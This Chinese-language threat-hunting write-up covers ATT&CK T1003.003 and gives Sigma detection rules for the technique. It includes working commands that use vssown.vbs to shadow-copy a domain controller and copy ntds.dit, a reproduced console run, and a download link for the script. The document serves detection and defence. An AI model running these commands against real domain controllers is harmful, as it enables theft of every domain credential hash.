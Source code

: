 # T1003-003-win-使用vssown.vbs获得NTDS.dit文件

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。
- 卷影复制
- secretsdump.py
- 使用内置的Windows工具ntdsutil.exe
- 调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2016+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```dos
cscript vssown.vbs /start
cscript vssown.vbs /create c
cscript vssown.vbs /list
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\ntds\ntds.dit C:\
cscript vssown.vbs /delete
```

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Users\Administrator\Desktop\test>cscript vssown.vbs /start
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Signal sent to start the VSS service.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /create c
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Attempting to create a shadow copy.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /list
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

SHADOW COPIES
=============

[*] ID:                  {42C8E0BD-6FD9-4CFB-B006-4640DAE84DC8}
[*] Client accessible:   True
[*] Count:               1
[*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[*] Differential:        True
[*] Exposed locally:     False
[*] Exposed name:
[*] Exposed remotely:    False
[*] Hardware assisted:   False
[*] Imported:            False
[*] No auto release:     True
[*] Not surfaced:        False
[*] No writers:          True
[*] Originating machine: ICBC.abcc.org
[*] Persistent:          True
[*] Plex:                False
[*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
[*] Service machine:     ICBC.abcc.org
[*] Set ID:              {584C48BF-649D-4B35-9CAE-3165C2C8BE53}
[*] State:               12
[*] Transportable:       False
[*] Volume name:         \\?\Volume{16da2094-7213-420f-a023-db7b3e3a7f6f}\


C:\Users\Administrator\Desktop\test>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\
已复制         1 个文件。

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /delete
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。
```

## 测试留痕

测试留痕日志下载地址：<https://github.com/12306Bro/Threathunting-book/blob/master/Eventdata/vssown.evtx>

## 检测规则/思路

### sigma规则

```yml
title: 使用vssown.vbs拿到NTDS.dit文件
description: windows server 2016+ AD域控
tags: T1003-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688 #已创建新的进程。
        New processname: C:\Windows\System32\cscript.exe
        Process commandline:
           - cscript  *.vbs /start #基于命令行检测
           - cscript  *.vbs /create c #基于命令行检测
           - cscript  *.vbs /delete #基于命令行检测
           - cscript  *.vbs /list #基于命令行检测
    condition: selection
---
detection:
    selection1:
        EventID: 4904 #已试图注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    selection2:
        EventID: 8222 #已创建影子副本。
        Process image name: C:\Windows\System32\wbem\WmiPrvSE.exe
        Raw volume: \\?\Volume{*}\ #"*"代表正则匹配
        Shadow device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy* #"*"代表正则匹配
    selection3:
        EventID: 4905 #已试图取消注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    ​timeframe: last 10S #自定义时间范围
    condition: all of them
level: medium
```

### 建议

此检测特征仅适用于windows AD域控主机。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

vssown.vbs下载地址

<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

MITRE ATT&CK攻击知识库（企业）中文版

<https://hansight.github.io/#/>
